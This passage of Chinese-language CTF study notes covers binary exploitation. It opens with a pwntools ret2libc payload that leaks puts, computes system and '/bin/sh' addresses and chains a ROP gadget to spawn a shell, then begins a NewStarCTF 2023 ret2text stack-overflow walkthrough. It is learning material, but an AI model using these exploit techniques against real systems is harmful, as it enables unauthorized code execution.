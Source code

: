 ```python
# 在libc database search (后三位地址)中查询，下载好对应的libc库
# 将libc库导入，并且计算system和binsh地址(当然先算基地址)

libc=ELF('/libc文件')
libc_base = puts_real - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

payload2 = b'a'*padding + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr) + p64(0xdeadbeef)   # 最后一个随便，因为此前执行就会getshell了

sleep(1)
r.sendline(payload2)
r.interactive()
```





### 稍有进阶--分割

### Ret2syscall









### NewStartCTF 2023 做题

#### Week1 ret2text

简单的栈溢出

检查二进制文件的信息

![image-20240420170753682](../typora-user-images/image-20240420170753682.png)

![image-20240420171345519](../typora-user-images/image-20240420171345519.png)

64位小端程序

```
Could not populate PLT: module 'unicorn' has no attribute 'UC_ARCH_RISCV'
这个警告不知道怎么回事
```

用IDA打开

![image-20240420171846889](../typora-user-images/image-20240420171846889.png)

显然read函数是一个溢出点，buf到栈底距离0x20，再加上指针8字节

![image-20240420172212062](../typora-user-images/image-20240420172212062.png)
